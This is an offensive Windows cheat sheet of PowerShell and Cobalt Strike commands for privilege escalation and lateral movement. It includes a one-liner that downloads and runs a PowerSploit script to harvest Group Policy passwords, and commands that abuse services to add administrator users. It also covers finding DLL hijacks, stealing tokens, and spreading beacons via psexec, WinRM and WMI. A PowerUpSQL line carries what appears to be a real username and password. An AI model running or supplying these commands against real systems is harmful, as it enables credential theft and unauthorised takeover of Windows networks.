 ```Powershell      
```
Group Policy Preferences:
```Powershell      
iex (new-object net.webclient).downloadstring("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Get-GPPPassword.ps1"); Get-GPPPassword
```
PowerUp:
```Powershell      
Invoke-AllChecks
```    
Sherlock:
```Powershell      
Find-AllVulns    
```    
SQL (PowerUpSQL):
```Powershell      
Get-SQLConnectionTestThreaded -Instance "srvsccmsql01,1433" -username assnt\_cmSqlAgnt -password Verba10m -verbose
```
#### Services:
##### Modify a service to add administrative user
```Powershell          
Invoke-ServiceUserAdd -ServiceName VulnSVC - UserName <> -Password
```    
##### Writes out a C# service executable that adds a user
```Powershell          
Write-UserAddServiceBinary - ServiceName VulnSVC -UserName <> -Password <>
```
##### Replace service binary for one which can add admin user
```Powershell          
Write-ServiceEXE ServiceName VulnSVC -UserName <> -Password <>
```        
##### DLL:
```Powershell  
Invoke-FindDLLHijack
    
Invoke-FindPathHijack
```
##### Token Stealing:
use ps to list processes
use steal_token [pid] to steal token 
use getuid to find out who you are
use rev2self to drop token
    
##### Beacon Automation (Cobalt Strike)
Run executable as a service
	psexec [target] [share] [listener]      - Win XP
Run PowerShell one-liner as a service:
    psexec_psh [target] [listener]
Run PowerShell one-liner with WinRM
    winrm [target] [listener]
Run PowerShell one-liner with WMI
    wmi [target] [listener]
      